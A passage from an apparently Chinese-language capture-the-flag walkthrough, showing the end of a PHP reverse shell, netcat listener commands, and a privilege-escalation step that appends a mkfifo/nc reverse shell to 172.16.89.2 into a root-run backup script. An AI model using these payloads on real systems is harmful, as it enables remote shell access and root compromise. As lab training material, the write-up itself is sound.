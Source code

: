 ```
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}
?>
```

![img](/assets/img/15.png)

kali 监听

```
nc -lvp 4444
```

点击save，成功回弹

![img](/assets/img/16.png)

## 0x04 提权

kali 监听

```
nc -lvp 6666
```

写入 payload

```
cd /opt/scripts/
echo "mkfifo /tmp/bqro; nc 172.16.89.2 6666 0</tmp/bqro | /bin/sh >/tmp/bqro 2>&1; rm /tmp/bqro" >> /opt/scripts/backups.sh
```

等待回弹，获得root权限，/root/下拿到flag

![image-20211005223842239](/assets/img/image-20211005223842239.png)